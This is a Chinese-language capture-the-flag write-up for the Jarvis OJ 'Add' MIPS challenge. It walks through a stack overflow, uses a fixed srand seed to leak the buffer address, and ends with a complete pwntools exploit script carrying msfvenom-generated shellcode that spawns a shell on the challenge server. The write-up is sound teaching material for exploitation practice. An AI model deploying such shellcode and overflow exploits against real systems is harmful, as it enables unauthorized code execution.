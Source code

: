 ```yaml
---
title: Jarvis OJ - Add の Write-Up
date: 2021-01-28 13:35:37
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- Stack
- MIPS
---
```

## Introduction

&emsp;&emsp;Add是MIPS架构的一道入门级别的栈溢出题，MIPS架构是一种采取精简指令集（RISC）的处理器架构。

<!-- more -->

## Step 1

&emsp;&emsp;checksec发现是MIPS架构的32位程序：

![](/img/Add/Add1.png)

&emsp;&emsp;连接到服务器端看下程序运行逻辑：

![](/img/Add/Add2.png)

&emsp;&emsp;看起来是个简单的加法计算器。

## Step 2

&emsp;&emsp;Ghidra反编译看下main函数的代码：

![](/img/Add/Add3.png)

![](/img/Add/Add4.png)

&emsp;&emsp;结合retdec反编译的C代码：

![](/img/Add/Add5.png)

&emsp;&emsp;在LAB_00400b18中有这样一个片段：

![](/img/Add/Add6.png)

&emsp;&emsp;根据main函数的代码发现buf放的是输入内容，而程序接受输入的时候是遇到\n才停止，所以存在输入过长导致栈溢出的问题。

&emsp;&emsp;上图中片段可以实现打印buf的地址，想要执行这个功能需要满足buf和challenge相等，buf是由我们控制的。

&emsp;&emspchallenge表面上是rand()生成的随机数，但是由于随机种子是由srand(0x123456)生成的，即为固定值，导致challenge也是固定值。

&emsp;&emsp;通过上面的分析我们可以得到栈上buf的地址，加上程序没有NX保护。所以当在buf中布置好shellcode控制程序跳转执行即可。

## Step 3

&emsp;&emsp;利用cyclic生成200个字节，通过调试发现溢出偏移量为112即0x70。这里要注意只有退出程序才会回到返回地址，所以最后需要一个退出的操作。

&emsp;&emsp;另外在调试中发现如果直接部署在buf上，在shellcode中指令会将/bin/sh字符串修改导致get shell 失败。所以需要将shellcode再偏移4或8和字节。

&emsp;&emsp;利用msfvenom生成payload：

![](/img/Add/Add7.png)

## Step 4

&emsp;&emsp;下面是PWN脚本：

```
from pwn import *
from ctypes import CDLL

sh = remote("pwn2.jarvisoj.com", 9889)

dll = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
dll.srand(0x123456)
key = dll.rand()

sh.sendlineafter("help.\n", str(key))
sh.recvuntil("Your input was")
stack_addr = int(sh.recvline().strip(), 16)

buf =  b""
buf += b"\x66\x06\x06\x24\xff\xff\xd0\x04\xff\xff\x06\x28\xe0"
buf += b"\xff\xbd\x27\x01\x10\xe4\x27\x1f\xf0\x84\x24\xe8\xff"
buf += b"\xa4\xaf\xec\xff\xa0\xaf\xe8\xff\xa5\x27\xab\x0f\x02"
buf += b"\x24\x0c\x01\x01\x01\x2f\x62\x69\x6e\x2f\x73\x68\x00"

payload = '0'*4 + buf.ljust(0x70 - 4, '0') + p32(stack_addr + 4)

sh.sendline(payload)

sh.sendline('exit')

sh.interactive()
sh.close()
```

&emsp;&emsp;脚本运行结果：

![](/img/Add/Add8.png)
